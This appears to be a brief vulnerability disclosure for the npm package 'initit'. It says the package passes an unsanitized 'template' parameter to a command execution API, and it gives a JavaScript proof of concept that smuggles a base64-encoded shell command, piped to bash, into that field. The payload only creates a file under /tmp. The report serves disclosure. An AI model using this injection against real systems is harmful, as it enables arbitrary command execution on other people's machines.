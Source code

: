  We find a potential command injection vulnerability from it.
The bug is introduced because package-exported method fails to sanitize ``template`` parameter and let it flow into a sensitive command execution API.

The following code is the proof of concept.

```javascript
const initit = require("initit")

// touch /tmp/initit_rce
initit({name: "xxx",template: "`echo dG91Y2ggL3RtcC9pbml0aXRfcmNl | base64 -d | bash`/bbb"})f
```
